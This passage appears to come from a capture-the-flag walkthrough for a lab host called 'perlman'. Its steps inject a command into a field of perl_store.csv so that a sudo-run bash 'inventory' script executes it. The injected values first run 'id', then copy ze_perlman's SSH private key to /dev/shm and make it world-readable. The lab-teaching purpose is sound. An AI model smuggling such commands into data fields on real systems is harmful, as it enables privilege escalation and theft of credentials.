




5.4 Modify "perl_store.csv"
1. Edit “/home/ze_perlman/perl_store.csv” and add the following string at the end of line 2 (,x[$(id>&2)]).
Output:

2. Save the file.
3. Run the following commands.
milou@perlman:~$ cd /home/ze_perlman/
milou@perlman:/home/ze_perlman$ sudo -u ze_perlman /bin/bash /home/ze_perlman/inventory
Output:

Realize that with the (,x[$(id>&2)]) is equivalent to echo id >&2.
4. Edit “/home/ze_perlman/perl_store.csv” again and change (,x[$(id>&2)]) to (,x[$(cp /home/ze_perlman/.ssh/id_rsa /dev/shm>&2 ; chmod 777 /dev/shm/id_rsa>&2)]).

5. Save the file.
6. Check the output.
milou@perlman:/home/ze_perlman$ sudo -u ze_perlman /bin/bash /home/ze_perlman/inventory
Output:
